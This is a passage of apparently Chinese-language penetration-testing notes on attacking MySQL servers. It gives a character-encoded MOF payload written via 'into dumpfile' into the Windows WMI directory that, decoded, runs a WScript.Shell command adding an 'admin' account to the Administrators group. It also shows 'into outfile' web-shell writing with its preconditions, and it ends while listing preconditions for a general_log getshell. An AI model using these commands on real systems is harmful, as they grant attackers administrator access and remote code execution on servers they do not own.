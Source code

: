 2. 手动上传到目标导入`select load_file('mof file') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof`到Mof目录.
   或者使用select 写入

   ```mysql
   select char(35,112,114,97,103,109,97,32,110,97,109,101,115,112,97,99,101,40,34,92,92,92,92,46,92,92,114,111,111,116,92,92,115,117,98,115,99,114,105,112,116,105,111,110,34,41,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,95,95,69,118,101,110,116,70,105,108,116,101,114,32,97,115,32,36,69,118,101,110,116,70,105,108,116,101,114,13,10,123,13,10,32,32,32,32,69,118,101,110,116,78,97,109,101,115,112,97,99,101,32,61,32,34,82,111,111,116,92,92,67,105,109,118,50,34,59,13,10,32,32,32,32,78,97,109,101,32,32,61,32,34,102,105,108,116,80,50,34,59,13,10,32,32,32,32,81,117,101,114,121,32,61,32,34,83,101,108,101,99,116,32,42,32,70,114,111,109,32,95,95,73,110,115,116,97,110,99,101,77,111,100,105,102,105,99,97,116,105,111,110,69,118,101,110,116,32,34,13,10,32,32,32,32,32,32,32,32,32,32,32,32,34,87,104,101,114,101,32,84,97,114,103,101,116,73,110,115,116,97,110,99,101,32,73,115,97,32,92,34,87,105,110,51,50,95,76,111,99,97,108,84,105,109,101,92,34,32,34,13,10,32,32,32,32,32,32,32,32,32,32,32,32,34,65,110,100,32,84,97,114,103,101,116,73,110,115,116,97,110,99,101,46,83,101,99,111,110,100,32,61,32,53,34,59,13,10,32,32,32,32,81,117,101,114,121,76,97,110,103,117,97,103,101,32,61,32,34,87,81,76,34,59,13,10,125,59,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,65,99,116,105,118,101,83,99,114,105,112,116,69,118,101,110,116,67,111,110,115,117,109,101,114,32,97,115,32,36,67,111,110,115,117,109,101,114,13,10,123,13,10,32,32,32,32,78,97,109,101,32,61,32,34,99,111,110,115,80,67,83,86,50,34,59,13,10,32,32,32,32,83,99,114,105,112,116,105,110,103,69,110,103,105,110,101,32,61,32,34,74,83,99,114,105,112,116,34,59,13,10,32,32,32,32,83,99,114,105,112,116,84,101,120,116,32,61,13,10,32,32,32,32,34,118,97,114,32,87,83,72,32,61,32,110,101,119,32,65,99,116,105,118,101,88,79,98,106,101,99,116,40,92,34,87,83,99,114,105,112,116,46,83,104,101,108,108,92,34,41,92,110,87,83,72,46,114,117,110,40,92,34,110,101,116,46,101,120,101,32,108,111,99,97,108,103,114,111,117,112,32,97,100,109,105,110,105,115,116,114,97,116,111,114,115,32,97,100,109,105,110,32,47,97,100,100,92,34,41,34,59,13,10,32,125,59,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,95,95,70,105,108,116,101,114,84,111,67,111,110,115,117,109,101,114,66,105,110,100,105,110,103,13,10,123,13,10,32,32,32,32,67,111,110,115,117,109,101,114,32,32,32,61,32,36,67,111,110,115,117,109,101,114,59,13,10,32,32,32,32,70,105,108,116,101,114,32,61,32,36,69,118,101,110,116,70,105,108,116,101,114,59,13,10,125,59) into dumpfile 'c:/Windows/system32/wbem/mof/nullevt.mof';
   ```

## Getshell

#### 直接写文件Getwebshell

**利用条件:**

- secure-file-priv参数为空或者为网站根路径
- 知道网站的绝对路径

**步骤:**

```mysql
select 'phpinfo();' into outfile 'c:/www/webshell.php'
```

#### 日志general_log Getshell

**利用条件:**

* 注入点支持堆叠语句或者能独立执行sql语句(phpmyadmin...)
* 知道网站绝对路径
